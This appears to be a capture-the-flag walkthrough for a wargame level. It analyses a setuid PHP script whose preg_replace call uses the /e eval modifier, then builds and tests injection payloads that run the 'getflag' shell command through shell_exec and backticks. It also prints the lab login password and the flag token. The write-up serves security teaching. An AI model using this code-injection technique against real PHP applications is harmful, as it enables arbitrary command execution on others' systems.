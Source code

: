 # Level 06

## Requirements

- None

## Walkthrough

1. Login from the __attacker__'s machine.

	```
	ssh -p 4242 level06@192.168.1.32
	Password: viuaaale9huek52boumoomioc
	```

1. Check files.

	```sh
	> ls -l
	total 12
	-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
	```

1. Let me guess, we gonna have to find a PHP vulnerability ?

	```sh
	> ./level06
	PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

	> cat level06.php
	#!/usr/bin/php
	<?php
	function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
	function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
	$r = x($argv[1], $argv[2]); print $r;
	?>
	```

1. Damn, that's ugly code. Let's analyze it.

	```php
	<?php

	function y($m)
	{
		# Replace `.` (dot) by ` x ` (letter X with a space before and after) in $m
		$m = preg_replace("/\./", " x ", $m);
		# Replace `@` (at) by ` y` (letter Y with space before) in $m
		$m = preg_replace("/@/", " y", $m);
		# Return the modified string
		return $m;
	}

	function x($y, $z)
	{
		# Open file $y and store its content into $a
		$a = file_get_contents($y);
		# Replace `[x ...]` (letter X followed by a space then anything, the whole between brackets) by `y("\2")` (letter Y followed by parenthesis with quotes inside, which themselves have a backslash followed by the digit 2 inside)
		# But what does the `/e` means on the REGEX ?
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
		# Replace `[` (open bracket) by `(` (open parenthesis) in $a
		$a = preg_replace("/\[/", "(", $a);
		# Replace `]` (close bracket) by `)` (close parenthesis) in $a
		$a = preg_replace("/\]/", ")", $a);
		# Return the modified string
		return $a;
	}

	# Call the function `x` with the script call arguments 1 and 2
	# But the function `x` doesn't do anything with the second one, so just ignore it
	$r = x($argv[1], $argv[2]);
	# Print the result
	print $r;

	?>
	```

1. Overall, nothing too fancy, except that one line which stands out due to the unusual `/e`.

	```php
	...
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	...
	```

1. What does the documentation has to say about it ?

	```
	https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php
	```

1. Well, nothing about it... What about Google ?

	```
	https://www.google.com/search?q=php+regex+%252Fe
	https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier
	```

1. Eurêka! That's it, we even have an exemple. Go for it, but let's summarize what we know.

	```
	1. We have to run ./level06 with a file as file as argument
	2. The contents of the file will be stored in $a
	3. `[x ...]` with be replaced by a PHP execution of as PHP code `y("...")`
	...
	```

1. So, by reversing it, we end up with something like:

	```
	1. We want to execute a the 'getflag' shell command. PHP has a function called `shell_exec` for that.

	shell_exec("getflag")

	2. We need to match the REGEX expression

	[x shell_exec("getflag")]

	3. Stop! We forgot to escape the command from the PHP string

	[x ".shell_exec("getflag)."]
	```

1. Let's try it.

	```sh
	# Default concatenation using "." (dot)
	> echo "[x \".shell_exec(\"getflag\").\"]" > /tmp/exploit06.php
	> ./level06 /tmp/exploit06.php
	" x shell_exec("getflag") x "

	# Use of "{}" to
	> echo "[x {shell_exec(\"getflag\")}]" > /tmp/exploit06.php
	> ./level06 /tmp/exploit06.php
	{shell_exec("getflag")}

	# But "{}" only works for variables... So fake it
	> echo "[x {\${shell_exec(\"getflag\")}}]" > /tmp/exploit06.php
	> ./level06 /tmp/exploit06.php
	PHP Parse error:  syntax error, unexpected T_CONSTANT_ENCAPSED_STRING, expecting T_STRING in /home/user/level06/level06.php(4) : regexp code on line 1
	PHP Fatal error:  preg_replace(): Failed evaluating code:
	y("{${shell_exec(\"getflag\")}}") in /home/user/level06/level06.php on line 4

	# To fix this error, we just need to remove quote escape
	> echo "[x {\${shell_exec("getflag")}}]" > /tmp/exploit06.php
	> ./level06 /tmp/exploit06.php
	PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
	in /home/user/level06/level06.php(4) : regexp code on line 1
	```

1. Finally, we got it!

	```sh
	> echo "[x {\${shell_exec("getflag")}}]" > /tmp/exploit06.php
	> ./level06 /tmp/exploit06.php
	...
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
	...
	```

1. Futhermore, if we check the `exec_shell` documentation, we notice that we can replace the function call by backticks.

	```sh
	> echo "[x \${\`getflag\`}]" > /tmp/exploit06.php
	> ./level06 /tmp/exploit06.php
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
	in /home/user/level06/level06.php(4) : regexp code on line 1
	```

## Documentation

- Language: [PHP](https://www.php.net/)
- String: [PHP String Parsing](https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing)
- Function: [preg_replace](https://www.php.net/manual/en/function.preg-replace.php)
- Function: [file_get_contents](https://www.php.net/manual/en/function.file-get-contents.php)
- Function: [print](https://www.php.net/manual/en/function.print.php)
- Function: [exec_shell](https://www.php.net/manual/en/function.exec.php)
